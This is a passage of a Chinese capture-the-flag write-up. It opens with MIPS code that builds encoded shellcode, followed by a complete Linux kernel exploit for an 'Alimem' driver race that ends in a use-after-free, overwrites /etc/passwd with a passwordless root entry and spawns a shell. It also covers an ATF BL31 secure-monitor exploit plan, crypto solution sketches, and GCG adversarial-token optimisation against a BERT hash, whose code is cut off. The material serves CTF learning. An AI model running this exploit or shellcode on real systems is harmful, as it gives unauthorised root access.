li $v0,-13565952
sw $v0,4($t8)
li $v0,611618120
sw $v0,8($t8)
li $v0,1153910928
sw $v0,12($t8)
li $v0,536907812
sw $v0,16($t8)
li $v0,-1170145280
sw $v0,20($t8)
li $v0,8
sw $v0,24($t8)
li $v0,1221101900
sw $v0,28($t8)
li $v0,84933257
sw $v0,32($t8)
li $v0,447
sw $v0,36($t8)
li $v0,2734080
sw $v0,40($t8)
li $v0,-1991770112
sw $v0,44($t8)
li $v0,1157959678
sw $v0,48($t8)
li $v0,-1991650767
sw $v0,52($t8)
li $v0,-410433344
sw $v0,56($t8)
li $v0,6841
sw $v0,60($t8)
li $v0,-796310528
sw $v0,64($t8)
li $v0,1220567885
sw $v0,68($t8)
li $v0,-98274163
sw $v0,72($t8)
li $v0,28346
sw $v0,76($t8)
li $v0,-1196690688
sw $v0,80($t8)
li $v0,42
sw $v0,84($t8)
li $v0,1724352844
sw $v0,88($t8)
li $v0,-98286393
sw $v0,92($t8)
li $v0,1153892353
sw $v0,96($t8)
li $v0,1778449444
sw $v0,100($t8)
li $v0,84869226
sw $v0,104($t8)
li $v0,696
sw $v0,108($t8)
li $v0,1153918464
sw $v0,112($t8)
li $v0,3051044
sw $v0,116($t8)
li $v0,612142408
sw $v0,120($t8)
li $v0,267792782
sw $v0,124($t8)
li $v0,-1031190523
sw $v0,128($t8)
li $v0,612142408
sw $v0,132($t8)
li $v0,-796310336
sw $v0,136($t8)
li $v0,-204895924
sw $v0,140($t8)
li $v0,609520043
sw $v0,144($t8)
li $v0,1221734840
sw $v0,148($t8)
li $v0,-1474018163
sw $v0,152($t8)
li $v0,608471368
sw $v0,156($t8)
li $v0,1955416288
sw $v0,160($t8)
li $v0,-1991458780
sw $v0,164($t8)
li $v0,28854471
sw $v0,168($t8)
li $v0,16777216
sw $v0,172($t8)
li $v0,1207959552
sw $v0,176($t8)
li $v0,-1339800439
sw $v0,180($t8)
li $v0,608472392
sw $v0,184($t8)
li $v0,1149847693
sw $v0,188($t8)
li $v0,-1924622300
sw $v0,192($t8)
li $v0,1217930308
sw $v0,196($t8)
li $v0,-802929527
sw $v0,200($t8)
li $v0,11960
sw $v0,204($t8)
li $v0,608486912
sw $v0,208($t8)
li $v0,-951582579
sw $v0,212($t8)
li $v0,417866820
sw $v0,216($t8)
li $v0,1207959552
sw $v0,220($t8)
li $v0,-1474018105
sw $v0,224($t8)
li $v0,20
sw $v0,228($t8)
li $v0,608487240
sw $v0,232($t8)
li $v0,416
sw $v0,236($t8)
li $v0,1153910784
sw $v0,240($t8)
li $v0,120868
sw $v0,244($t8)
li $v0,84869120
sw $v0,248($t8)
# shellcode end
    sw $s1,0($t1)
    sw $s0,4($t1)
    li $v0,13
    syscall
loop:
    b loop

fake_inst:
    move $a0, $sp
    li $a1, 577 
    li $a2, 448
    li $v0,13
    syscall

    move $a0,$v0
    addiu $a1,$sp,-8
    li $a2,8
    li $v0,15
    syscall
    
    li $v0,16
    syscall

    move $a0, $sp
    li $a1, 0
    li $v0,13
    syscall

    move $a0,$v0
    li $a1,0x400000
    
    li $v0,14
    syscall

    li $v0,16
    syscall

    jr $ra
```

```
# recv.mips
# 替换send.mips shellcode部分
li $v0,1103114565
sw $v0,0($t8)
li $v0,3769
sw $v0,4($t8)
li $v0,1955416064
sw $v0,8($t8)
li $v0,-951543772
sw $v0,12($t8)
li $v0,9970756
sw $v0,16($t8)
li $v0,1090519072
sw $v0,20($t8)
li $v0,2234
sw $v0,24($t8)
li $v0,-930526208
sw $v0,28($t8)
li $v0,1288145228
sw $v0,32($t8)
li $v0,84918921
sw $v0,36($t8)
li $v0,113217
sw $v0,40($t8)
li $v0,699924480
sw $v0,44($t8)
li $v0,1275068416
sw $v0,48($t8)
li $v0,-1991452791
sw $v0,52($t8)
li $v0,822415318
sw $v0,56($t8)
li $v0,-1031190309
sw $v0,60($t8)
li $v0,612142408
sw $v0,64($t8)
li $v0,1751312
sw $v0,68($t8)
li $v0,-662110208
sw $v0,72($t8)
li $v0,608487270
sw $v0,76($t8)
li $v0,1207959818
sw $v0,80($t8)
li $v0,170161293
sw $v0,84($t8)
li $v0,1153936371
sw $v0,88($t8)
li $v0,1778388004
sw $v0,92($t8)
li $v0,1665663082
sw $v0,96($t8)
li $v0,3258618
sw $v0,100($t8)
li $v0,1857683456
sw $v0,104($t8)
li $v0,251658240
sw $v0,108($t8)
li $v0,3323909
sw $v0,112($t8)
li $v0,96337920
sw $v0,116($t8)
li $v0,251658240
sw $v0,120($t8)
li $v0,2865157
sw $v0,124($t8)
li $v0,-1991507968
sw $v0,128($t8)
li $v0,-1031189306
sw $v0,132($t8)
li $v0,-1991768817
sw $v0,136($t8)
li $v0,2089633986
sw $v0,140($t8)
li $v0,-662058972
sw $v0,144($t8)
li $v0,-204895924
sw $v0,148($t8)
li $v0,1821198507
sw $v0,152($t8)
li $v0,-1924616156
sw $v0,156($t8)
li $v0,1217864772
sw $v0,160($t8)
li $v0,-1924335005
sw $v0,164($t8)
li $v0,1218454604
sw $v0,168($t8)
li $v0,-937141107
sw $v0,172($t8)
li $v0,608471368
sw $v0,176($t8)
li $v0,-1031189344
sw $v0,180($t8)
li $v0,611092808
sw $v0,184($t8)
li $v0,3127528
sw $v0,188($t8)
li $v0,-1991770112
sw $v0,192($t8)
li $v0,1153911006
sw $v0,196($t8)
li $v0,1634340
sw $v0,200($t8)
li $v0,-951582720
sw $v0,204($t8)
li $v0,27796548
sw $v0,208($t8)
li $v0,1275068416
sw $v0,212($t8)
li $v0,-668709751
sw $v0,216($t8)
li $v0,608487240
sw $v0,220($t8)
li $v0,480
sw $v0,224($t8)
li $v0,1208291072
sw $v0,228($t8)
li $v0,-400276341
sw $v0,232($t8)
li $v0,276325192
sw $v0,236($t8)
li $v0,20920
sw $v0,240($t8)
li $v0,-1174073600
sw $v0,244($t8)
li $v0,80
sw $v0,248($t8)
li $v0,608487270
sw $v0,252($t8)
li $v0,1278095008
sw $v0,256($t8)
li $v0,1153879945
sw $v0,260($t8)
li $v0,1208001060
sw $v0,264($t8)
li $v0,84922505
sw $v0,268($t8)
li $v0,265324872
sw $v0,272($t8)
li $v0,-796309499
sw $v0,276($t8)
li $v0,-1991768817
sw $v0,280($t8)
li $v0,1208291280
sw $v0,284($t8)
li $v0,84922505
sw $v0,288($t8)
li $v0,265324872
sw $v0,292($t8)
li $v0,-796309499
sw $v0,296($t8)
li $v0,-1991768817
sw $v0,300($t8)
li $v0,-1207627824
sw $v0,304($t8)
li $v0,2
sw $v0,308($t8)
li $v0,-1272691514
sw $v0,312($t8)
li $v0,-276215808
sw $v0,316($t8)
li $v0,-943290036
sw $v0,320($t8)
li $v0,1722819652
sw $v0,324($t8)
li $v0,258433388
sw $v0,328($t8)
li $v0,4241925
sw $v0,332($t8)
li $v0,1665662976
sw $v0,336($t8)
li $v0,-561428232
sw $v0,340($t8)
li $v0,264276300
sw $v0,344($t8)
li $v0,-796308475
sw $v0,348($t8)
li $v0,265783628
sw $v0,352($t8)
li $v0,-858993659
sw $v0,356($t8)
```

## Alimem

本题实现了一个简单的页内存管理模块，功能支持增删查改，并实现了mmap回调。

页管理结构体如下：

```
struct alimem_page {
    void *virt; // 申请出的va
    phys_addr_t phys; // va对应的pa
    atomic_t refcount;
    struct rcu_head rcu;
};
```

申请逻辑如下:

```
    case ALIMEM_ALLOC: {
        new_page = kzalloc(sizeof(*new_page), GFP_KERNEL);
        if (!new_page) return -ENOMEM;
​
        new_page->virt = (void *)__get_free_pages(GFP_KERNEL, PAGE_ORDER);
        if (!new_page->virt) {
            kfree(new_page);
            return -ENOMEM;
        }
​
        new_page->phys = virt_to_phys(new_page->virt);
        atomic_set(&new_page->refcount, 1);
​
        down_write(&pages_lock);
        for (idx = 0; idx < MAX_PAGES; idx++) {
            if (!pages[idx]) {
                rcu_assign_pointer(pages[idx], new_page);
                up_write(&pages_lock);
                return idx;
            }
        }
        up_write(&pages_lock);
        free_pages((unsigned long)new_page->virt, PAGE_ORDER);
        kfree(new_page);
        return -ENOSPC;
    }
```

而在refcnt减小到0时，会通过rcu调用`free_page_rcu`，释放申请的页

```
static void free_page_rcu(struct rcu_head *rcu)
{
    struct alimem_page *page = container_of(rcu, struct alimem_page, rcu);
    free_pages((unsigned long)page->virt, PAGE_ORDER);
    kfree(page);
}
```

从而可以发现，页的生命周期与结构体维护的引用计数强绑定。

`refcnt++`除alloc初始化外，只在mmap时触发

而操作`refcnt--`的操作分别调用于vma销毁时的`alimem_vma_close`与ioctl中`ALIMEM_FREE`分支。

可以发现，在单进程环境下，引用计数是平衡的。

但注意到，`mmap`的操作是先拿到page的reference，再进行引用计数++，并且free时并未使用rcu锁，存在`race window`

```
    rcu_read_lock();
    if(!pages[idx]) {
        rcu_read_unlock();
        return -EINVAL;
    }
    page = rcu_dereference(pages[idx]);
    if (page) {
        phys_addr_t phys = page->phys;
        vma->vm_ops = &alimem_vm_ops;
        vma->vm_private_data = page;
        vm_flags_set(vma, vma->vm_flags | VM_DONTEXPAND | VM_DONTDUMP);
        rcu_read_unlock();
        if (remap_pfn_range(vma, vma->vm_start, 
                          phys >> PAGE_SHIFT,
                          vma->vm_end - vma->vm_start,
                          vma->vm_page_prot)) {
            return -EAGAIN;
        }
        
        atomic_inc(&page->refcount);
        return 0;
    }
```

从而可能出现以下竞争情况：

```
时间线        线程A（映射）               线程B（释放）
-----------------------------------------------------------
t0        检查page存在
t1        释放RCU锁
t2                           refcnt--,开始释放操作
t3                           清空页面内容
t4        映射物理地址,refcnt++
t5        读取到清零内容 → 触发UAF
```

从而造成映射至用户态的page已被释放，puaf。

### 漏洞利用

puaf后利用较为简单，喷射`pipe_buffer`篡改其`flags`，转化为任意文件写原语，提权即可

```
#define _GNU_SOURCE
​
#include <assert.h>
#include <err.h>
#include <errno.h>
#include <fcntl.h>
#include <linux/genetlink.h>
#include <linux/kcmp.h>
#include <linux/pkt_cls.h>
#include <linux/pkt_sched.h>
#include <linux/rtnetlink.h>
#include <linux/tc_ematch/tc_em_meta.h>
#include <pthread.h>
#include <stdarg.h>
#include <stdbool.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/resource.h>
#include <sys/socket.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/uio.h>
#include <syscall.h>
#include <unistd.h>
#include <sys/msg.h>
#include <sys/ioctl.h>
#include <stdatomic.h>
​
#define PAGE_SIZE 4096
#define DEV_PATH "/dev/alimem"
#define PATTERN 0xAA
#define MAX_ATTEMPTS 100000
#define ALIMEM_ALLOC 0x1337
#define ALIMEM_FREE 0x1338
#define ALIMEM_WRITE 0x1339
#define ALIMEM_READ 0x133a
struct alimem_write {
    int idx;
    unsigned int offset;
    const char *data;
    size_t size;
};
​
struct alimem_read {
    int idx;
    unsigned int offset;
    char *data;
    size_t size;
};
struct page;
struct pipe_inode_info;
struct pipe_buf_operations;
/* read start from len to offset, write start from offset */
struct pipe_buffer {
    struct page *page;
    unsigned int offset, len;
    const struct pipe_buf_operations *ops;
    unsigned int flags;
    unsigned long private;
};
​
int fd;
void *addr;
#define PIPE_NUM 400
int pipe_fd[400][2];
atomic_int uaf_detected = 0;
void hexdump(void *addr, size_t len) {
    unsigned char *p = (unsigned char*)addr;
    for (int i = 0; i < len; i++) {
        printf("%02X ", p[i]);
        if ((i + 1) % 16 == 0) printf("
");
    }
    printf("
");
}
​
void write_pattern(int idx) {
    char buf[PAGE_SIZE];
    memset(buf, PATTERN, sizeof(buf));
    
    struct alimem_write wr = {
        .idx = idx,
        .offset = 0,
        .data = buf,
        .size = sizeof(buf)
    };
    if (ioctl(fd, ALIMEM_WRITE, &wr) < 0) {
        perror("write error");
    }
}
​
void check_zero(void *addr) {
    char *p = (char*)addr;
    for (int i = 0; i < PAGE_SIZE; i++) {
        if (p[i] != 0) return;
    }
    atomic_store(&uaf_detected, 1);
}
​
void* mapper_thread(void *arg) {
    int idx = *(int*)arg;
    addr = mmap(NULL, PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED, fd, idx * PAGE_SIZE);
    usleep(500);
    if (addr != MAP_FAILED) {
        usleep(50000);
        check_zero(addr);
        if(!uaf_detected)
            munmap(addr, PAGE_SIZE);
    }
    return NULL;
}
​
int main() {
    int idx, attempt = 0;
    pthread_t tid;
    for(int i = 0; i < PIPE_NUM; i++){
        if(pipe(pipe_fd[i]) < 0){
            perror("pipe");
            return -1;
        }
    }
    if ((fd = open(DEV_PATH, O_RDWR)) < 0) {
        perror("device open failed");
        exit(EXIT_FAILURE);
    }
​
    printf("[+] Start to trigger racing bug...
");
    while (!atomic_load(&uaf_detected) && attempt++ < MAX_ATTEMPTS) {
​
        idx = ioctl(fd, ALIMEM_ALLOC);
        if (idx < 0) continue;
        write_pattern(idx);
​
​
        pthread_create(&tid, NULL, mapper_thread, &idx);
​
​
        usleep(50); // 精确控制竞争窗口
        ioctl(fd, ALIMEM_FREE, &idx);
​
​
        pthread_join(tid, NULL);
​
        if (attempt) {
            printf("[+] try %d times...\r", attempt);
            fflush(stdout);
        }
    }
​
    if (atomic_load(&uaf_detected)) {
        printf("
[+] UAF detected, try times: %d
", attempt);
    } else {
        printf("
[-] UAF detected error
");
    }
    for (int i = 0; i < PIPE_NUM; i++)
    {
        if(fcntl(pipe_fd[i][1], F_SETPIPE_SZ, 4 * 0x1000) < 0)
        {
            perror("fcntl");
            return -1;
        }
    }
    int target_fd = open("/etc/passwd", O_RDONLY);
    if(target_fd < 0){
        perror("open");
        return -1;
    }
    for(int i = 0; i < PIPE_NUM; i++){
        loff_t offset = i;
        ssize_t nbytes = splice(target_fd, &offset, pipe_fd[i][1], NULL, 1, 0);
        if (nbytes < 0)
        {
            perror("splice failed");
            return EXIT_FAILURE;
        }
        if (nbytes == 0)
        {
            //fprintf(stderr, "short splice
");
            continue;
        }
    }
    char *ptr = 0;
    int found = 0;
    if (ptr = memmem(addr, 0x1000, "\xff\xff", 2))
    {
        hexdump(ptr - 6, 0x40);
        found = 1;
    }
    if (found)
    {
        struct pipe_buffer *pp = (struct pipe_buffer *)(ptr - 6);
        pp->len = 0;
        pp->offset = 0;
        pp->flags |= 0x10;
        hexdump(ptr - 6, 0x40);
    }
    else
    {
        printf("
[-] UAF pipe_buffer error
");
    }
    char *r00t = "root::0:0:root:/root:/bin/sh
";
    for (int i = 0; i < PIPE_NUM; i++)
    {
        if (write(pipe_fd[i][1], r00t, strlen(r00t)) > 0)
        {
            continue;
        }
    }
    system("/bin/sh");
    return 0;
}
​
```

## trust\_storage

参考文章

<https://blog.csdn.net/yangguoyu8023/article/details/121281700>

简单来说，ATF的BL31是运行在EL3级别的runtime service，作为非安全世界(REE)与安全世界(TEE)转换的monitor，其也是存在于安全世界的。

### 逆向分析

题目给出的只有一个flash.bin,而我们的目标是BL31,所以要进行一定的解包与逆向分析

### FIP.bin分离

TF中常用FIP.bin将BL2,BL31,BL32,BL33打包在一起

fip.bin的标志如下

```
/* This is used as a signature to validate the blob header */
#define TOC_HEADER_NAME 0xAA640001
```

在010中进行查找然后使用dd可以对其进行分割

`dd if=flash.bin of=fip.bin skip=4 bs=0x10000`

然后使用atf中的fiptool进行fip.bin的分割

```
./fiptool info ./fip.bin
Trusted Boot Firmware BL2: offset=0x128, size=0x6439, cmdline="--tb-fw"
EL3 Runtime Firmware BL31: offset=0x6561, size=0xD07C, cmdline="--soc-fw"
Secure Payload BL32 (Trusted OS): offset=0x135DD, size=0x1C, cmdline="--tos-fw"
Secure Payload BL32 Extra1 (Trusted OS Extra1): offset=0x135F9, size=0x88378, cmdline="--tos-fw-extra1"
Non-Trusted Firmware BL33: offset=0x9B971, size=0x200000, cmdline="--nt-fw"
```

`./fiptool unpack ./fip.bin`

解出来的soc-fw.bin就是BL31.bin

### **BL31逆向**

#### 偏移恢复

对照ATF源代码找到 sub\_E0A1CA0

bl31\_setup()->bl31\_plat\_arch\_setup()

```
  sub_E0A31AC(&v3, 0LL, 136LL);
  v2[2] = 0x3E000uLL;
  v2[0] = 0xE0A0000LL;
  v2[1] = 0xE0A0000LL;
```

可以确定基地址为0xE0A0000

#### handler查找

对照ATF源代码找到 sub\_E0A5874

bl31\_main()->runtime\_svc\_init()

使用结构体恢复handler数组

```
typedef char int8_t;
typedef short int16_t;
typedef int int32_t;
typedef long int64_t;
​
typedef unsigned char uint8_t;
typedef unsigned short uint16_t;
typedef unsigned int uint32_t;
typedef unsigned long uint64_t;
​
typedef struct rt_svc_desc {
  uint8_t start_oen;
  uint8_t end_oen;
  uint8_t call_type;
  const char *name;
  void * init;
  void * handle;
} rt_svc_desc_t;
```

得到STORAGE\_SVC与LOG\_SVC两个自定义接口



#### handler分析

直接分析比较困难，因为没有建立bss段，需要补个bss

##### **STORAGE\_SVC**

存在两个命令字，分别是往bss中存与从bss中取。

​

检查了size，idx，并限制了ptr不能是安全世界的内存。

如果出错的话会退出，并调用sub\_E0A5F1C保存出错信息

##### **LOG\_SVC**

分析sub\_E0A5F1C,发现其是一个自己实现的log函数,ptr需要指向结构体下方的区域。

```
void __fastcall sub_E0A5F1C(char *result)
{
  signed int v2; // w19
  char *v3; // x2
​
  if ( pLog )
  {
    v2 = (unsigned int)strlen(result);
    if ( (unsigned int)pLog->ptr - ((_DWORD)pLog + 8) + v2 + 1 > 0x7FF )
      sub_E0A5EF8();
    memcpy((__int64)pLog->ptr, (__int64)result, v2);
    v3 = &pLog->ptr[v2];
    pLog->ptr = v3;
    *v3 = 0;
    ++pLog->ptr;
  }
}
```

否则就会对结构体进行重置

```
void sub_E0A5EF8()
{
  if ( pLog )
  {
    pLog->ptr = pLog->data;
    memset(pLog->data, 0LL, 2048LL);
  }
}
```

对LOG\_SVC进行逆向，可知其有两个处理函数，分别是

2 -> sub\_E0A5838

3 -> sub\_E0A263C

逆向后可知

sub\_E0A5838可以对pLog进行设置，仅判断其不能为安全内存。

sub\_E0A263C可以将log向外copy

#### 漏洞

LOG\_SVC中的结构体存在于非安全世界，REE可以对其进行控制，虽然写入log时有判断，但其重置后仍可以被竞争篡改，可以实现一次任意地址写log。

### 漏洞利用

#### 交互

1. 与EL3交互需要执行smc命令，该命令需要在EL1执行，自行编译驱动插入即可。
2. STORAGE\_SVC交互的命令字直接逆向可以得到
3. LOG\_SVC交互的命令字根据`rt_svc_desc`结构体的定义，结合atf源码，使用OEN，TYPE，NUM组合可以得到

```
FUNCID_TYPE_SHIFT = 31
FUNCID_CC_SHIFT = 30
FUNCID_OEN_SHIFT  = 24
FUNCID_NUM_SHIFT = 0
OEN_MY_TEST_START = 9
OEN_MY_TEST_END = 9
​
SMC_TYPE_FAST = 1
SMC_TYPE_YIELD = 0
​
def smc_fid(_smc_type, _oen, _smc_num):
    return (_smc_type << FUNCID_TYPE_SHIFT) | ((1) << FUNCID_CC_SHIFT) | (_oen << FUNCID_OEN_SHIFT) | ((_smc_num) << FUNCID_NUM_SHIFT)
​
print(hex(smc_fid(SMC_TYPE_YIELD, 7, 2)))
```

#### 思路

1. 使用任意地址写log，将log内容写入storage\_size 0xE0D70B0
2. 此时可以溢出storage，观察后发现log的handler结构体在storage下方，通过溢出可以实现任意函数调用，将其改为memcpy可以转换为任意读写原语
3. 目标需要实现任意shellcode执行，通过调试或unicorn模拟执行很容易找到aarch64页表的位置，提前copy shellcode后使用任意读写修改页表为rx即可执行
4. 由于无符号，不好找到直接的串口输出函数，可以开多个线程，一个线程不停打印内存，另一个线程触发漏洞向内存中写入flag

# Crypto

## OhMyDH

题目中的 action 是 CSIDH 群组行为在四元代数下的实现，曲线同源的安全性在于从曲线计算出其对应自同态环是困难的。

已知 ，计算

由于在四元代数下已知两 order，计算 connect ideal 是容易的

一个简单的想法，对于 ，理想 ，满足对于

故  分别为  的右理想和左理想，计算得到  后不能直接使用，因为  下的元素是非交换的，但是  实际上可以看作  的扩张，因此可以在  下找到  的嵌入 ，这个操作在实现的时候可以通过计算  对应的 Lattice 所张成的空间上在  处系数为 0 的向量

在得到嵌入  后由于  可交换的性质，类似 Diffie-Hellman 的操作即可还原出目标 order

### Reference

[1] Rational isogenies from irrational endomorphisms [↩](https://eprint.iacr.org/2019/1202.pdf)

## LinearCasino

McEliece 框架下  在特定参数下的可区分性

即区分  中  为随机  矩阵或

对于

论文中提到了一种区分方式，即  以大概率成立

还需要考虑的问题是这个性质在  下的情况

由于矩阵乘法可以看出对某个线性空间的同态映射，在  满秩的情况下可以视为行向量空间的同构映射，非满秩的情况下视为同态映射，仍然保留上述的相等关系，而同样右乘的列变换矩阵也不影响论文中证明的结果

实际上这里的区分还有一种更加简单的方式，注意到对于置换矩阵  ，有

故对于  有

考虑  的形式，

注意到  为  的矩阵，秩最多为 50，故  ，从而可以透过  观察这一点

### Reference

[1] The problem with the SURF scheme [↩](https://eprint.iacr.org/2017/662.pdf)

## PRFCasino

利用 ARX 和 Feistel 结构构造的 PRF，题目需要区分 PRF 输出与随机输出。

需要观察到 `T+T<<<20` 结构的特殊性

，其中

下面考虑这个性质的扩散程度，注意到对于一轮  为 0,15,16 的概率分别为

考虑经过 15 次叠加后的  在模 17 上的分布状态，可以视为多项式卷积

```
PR.<x> = PolynomialRing(QQ)
f = 1/6+1/6*x^15+2/3*x^16
coeff = list(f**15%(x^17-1))
for _ in range(len(coeff)):
    coeff[_] = round(coeff[_],6)
```

由于 2 与 11 在分布上存在较大差异，利用这一点进行区分

# Misc

## softHash

本题是一个发散性的娱乐题目，主要是给选手们设计了一个本质上是优化问题的神经网络哈希碰撞，本意是为了让选手熟悉和了解GCG算法，但我们都知道优化问题的解法是不拘一格的，因此在比赛过程中会出现非常多的其他做法，希望大家都能从本题目中学到一些知识。

题目衍生自笔者在N1CTF 2021所出的collision。要求是选取了embedding 1024位中的128位按符号变换组成了01串（这128位是笔者挑选过比较容易优化出满足题解的答案的），然后拼接之后形成一个hex串，作为最后的哈希，选手需要构造填充，使得给出的字符串`do you know how to get the flag?`经过填充之后的hash只有少于等于6bit与`give me the flag right now!`的哈希结果不同，并且还要满足一些额外的要求，例如需要提交6个不同的样本，样本中不能出现某些字符串，并且有两个stage，一个包含special token，另一个则不包含。主要考察选手GCG所使用思想的相关实现，GCG是NLP领域对抗中的基础算法，但可能需要读过文章才能知道预期解怎么做的。具体可以研究GCG的原文的思想，只需要将loss设计成合理的即可。

主要思想简单来说就是初始化adversarial prefix，设计loss，根据梯度来选择topk个使得loss往下降方向走的candidates，然后用这些topk的优秀token进行prefix中的替换，为了去掉误差，再forward一下来算一下准确的loss，取最小的loss及其对应的token，并相应地替换prefix中的token，一步步地进行迭代，具体的实现可以看exp，exp需要多跑几次，因为具有一定的随机性，可能陷入局部最优，笔者并没有做出更多的优化。此时也有一些小的技巧，比如GCG中prefix的选取也是很有讲究的，对优化难度具有很大的影响，因此为了贴近target，笔者这里直接把prefix初始化为几个target。此时的loss设计比较简单，使用了修改过的Dice loss和l2上的loss，并且分配一定的weight来进行平衡，当然loss的构造不唯一，笔者的构造肯定不是最好的方案。

本题的两个场景对应的是tokenizer encode的时候是否加了special token的场景，两种场景在GCG替换的时候idx对齐上会有微小的差异。（如果对不齐的话会导致GCG在优化的时候prefix或suffix越来越长，这也是笔者在早期自己实现GCG的时候经常遇到的bug之一）

本题的难度已经下降了，因为可以预期地存在一些非预期解，例如使用暴力的不依赖梯度的greedy search等传统基于搜索的优化算法，也有可能能达到diff=6的情况，而exp中的可能可以达到diff<=5的情况，笔者在测试的时候最多的时候达到了diff=4。而且最后需要提交6个样本，6个样本可以很容易地从1个样本中衍生出来，例如直接修改无关紧要的标点符号之类的方法就可以达到，因为128bit的hash还是挺少的，相比于1024的embedding是很少的，笔者为了降低题目难度并没有做进一步的要求例如要求组间cossim<x。

最后，其实GCG对梯度的利用率有非常巨大的提升空间，传统的GCG本质上与传统的搜索算法的速度并无特别大的差异，这也是为什么没有把难度上成优化为一个传统意义上的collision的原因，因为笔者也做不到100%的hash collision:( 只是GCG可以通过调整loss适应更多种的任务，也就比每次都针对某任务写一个search算法要便捷许多了。

详情请参见exp中的代码实现。

* exp\_with\_special.py

```
import os
import random
import json
from utils import *
from numpy import dot
from numpy.linalg import norm
from scipy.spatial import distance
from sentence_transformers import SentenceTransformer
os.environ['TF_CPP_MIN_LOG_LEVEL'] = '3' 

import pandas as pd
import pycallcc
from pycallcc import wrap, only_once
import torch 
import torch.nn as nn
import torch.nn.functional as F
import numpy as np
import gc
from transformers import BertTokenizer, BertModel

log_red = lambda x: print(f"\033[31m{x}\33[0m")
log_yellow = lambda x: print(f"\033[33m{x}\33[0m")
log_blue = lambda x: print(f"\033[34m{x}\33[0m")

DEVICE = torch.device('cuda:5' if torch.cuda.is_available() else 'cpu')

SKIP = ['[UNK]', '[CLS]', '[SEP]']

BITS = 128

class NeuralHash():
    def __init__(self, model_path):
        self.idxs = sorted(list(random.sample(range(0, 1024), BITS)))
        self.idxs = [2, 9, 10, 22, 27, 43, 47, 48, 60, 61, 63, 72, 73, 74, 85, 88, 93, 114, 131, 175, 193, 216, 220, 240, 248, 270, 279, 293, 298, 302, 306, 308, 324, 330, 338, 357, 358, 367, 383, 401, 405, 413, 416, 439, 441, 447, 450, 466, 471, 483, 485, 492, 500, 510, 516, 524, 525, 536, 540, 542, 547, 549, 551, 559, 573, 578, 593, 601, 608, 612, 614, 616, 622, 623, 625, 634, 638, 644, 655, 656, 682, 684, 686, 690, 691, 716, 734, 744, 756, 763, 766, 772, 777, 788, 797, 819, 823, 837, 851, 852, 859, 863, 875, 876, 879, 881, 883, 889, 898, 901, 934, 939, 941, 945, 957, 959, 963, 970, 983, 994, 995, 997, 999, 1000, 1001, 1011, 1014, 1022]
        self.model = SentenceTransformer(model_path)

    def embed(self, string):
        return self.model.encode(string, normalize_embeddings=True)

    def hash(self, string):
        embedding = self.embed(string)
        res = [str(int(embedding[i] > 0)) for i in self.idxs]
        hash_value = hex(int(''.join(res), 2))
        return hash_value

def load_tokenizer(path):
    global tokenizer
    tokenizer = BertTokenizer.from_pretrained(path)
    print('The tokenizer is loaded successfully.')


def load_encode_model(path):
    global encode_model
    encode_model = BertModel.from_pretrained(path)
    encode_model = encode_model.to(DEVICE)
    print('The encode model is loaded successfully.')


def load_full_model(path):
    global full_model
    full_model = SentenceTransformer(path)
    full_model = full_model.to(DEVICE)
    print('The full model is loaded successfully.')

def token_gradients(input_ids, target_embedding, t5_embed_weights, vocab_size):
    
    one_hot_input = torch.zeros(
        input_ids.shape[0],
        vocab_size,
        device=full_model.device,
        dtype=torch.float32
    )
    ### check the shape of one_hot_input
    # print('The shape of one_hot_input:', one_hot_input.shape)
    # print(input_ids.unsqueeze(1).shape)
    # print(torch.ones(one_hot_input.shape[0], 1).shape)

    one_hot_input.scatter_(
        1,
        input_ids.unsqueeze(1),
        torch.ones(one_hot_input.shape[0], 1, device=full_model.device, dtype=torch.float32)
    )
    one_hot_input.requires_grad = True

    embedding_results = one_hot_input @ t5_embed_weights
    embedding_results = embedding_results.unsqueeze(0)

    encode_output = encode_model(inputs_embeds=embedding_results)

    # inputs is a dict with key "token_embeddings", 
    # value is encode_output.last_hidden_state
    inputs = dict(token_embeddings=encode_output.last_hidden_state.to(full_model.device),
                  attention_mask=torch.ones(input_ids.shape, device=full_model.device)
                  )
    # print('The inputs is:', inputs)
    
    for idx, module in enumerate(full_model):
        # check the module type is Transformer or not
        # print(module)
        if idx > 0:
            inputs = module(inputs)
    # normalize the output
    inputs = inputs['sentence_embedding']        
    outputs = torch.nn.functional.normalize(inputs, p=2, dim=1)

    # TODO: check the target is single or batch
    if target_embedding.shape[0] == 1:
        loss = torch.nn.functional.cosine_similarity(outputs, target_embedding) ** 3
    else:
        # ensemble the loss of different target_embedding
        loss = torch.nn.functional.cosine_similarity(outputs, target_embedding) ** 3
        loss = loss.mean()

    loss.backward()
    # print(one_hot_input.grad)
    # print(one_hot_input.grad.shape)
    return one_hot_input.grad

def sample_control(grad, control_toks, non_ascii_toks, batch_size=256, topk=128, allow_non_ascii=True):

    if not allow_non_ascii:
        # grad[:, vocab_tokens.to(grad.device)] = np.infty
        grad[:, non_ascii_toks.to(grad.device)] = -np.infty
        print('grad shape:', grad.shape)
        print(non_ascii_toks)
        exit()

    # top_indices = (-grad).topk(topk, dim=1).indices
    top_indices = (grad).topk(topk, dim=1).indices
    # print('Shape of top_indices:', top_indices.shape)

    original_control_toks = control_toks.repeat(batch_size, 1)
    new_token_pos = torch.arange(
        0, 
        len(control_toks), 
        len(control_toks) / batch_size,
        device=grad.device
    ).type(torch.int64)
    # print('the shape of new_token_pos is: ', new_token_pos.shape)

    new_token_val = torch.gather(
        top_indices[new_token_pos], 1, 
        torch.randint(0, topk, (batch_size, 1), device=grad.device)
    )
    # print('the shape of new_token_val is: ', new_token_val.shape)

    new_control_toks = original_control_toks.scatter_(1, new_token_pos.unsqueeze(-1), new_token_val)
    return new_control_toks

def select_non_ascii_toks(tokenizer):
    def is_ascii(s):
        return s.isascii() and s.isprintable()

    non_ascii_toks = []
    for i in range(3, tokenizer.vocab_size):
        if not is_ascii(tokenizer.decode([i])):
            non_ascii_toks.append(i)

    return torch.tensor(non_ascii_toks, device=full_model.device)

def get_filtered_cands(control_cand):
    # decode the control_cand to text, and tokenize the text, check the token changed or not
    cands = []
    for i in range(control_cand.shape[0]):
        control_cand_text = tokenizer.decode(control_cand[i])
        control_cand_token = tokenizer(control_cand_text, return_tensors="pt", add_special_tokens=False).input_ids[0].to(full_model.device)

        # print(control_cand[i].shape, control_cand[i], tokenizer.decode(control_cand[i]))
        # print(control_cand_token.shape, control_cand_token, tokenizer.decode(control_cand_token))
        # exit(0)

        try:
            if torch.all(control_cand_token == control_cand[i]):
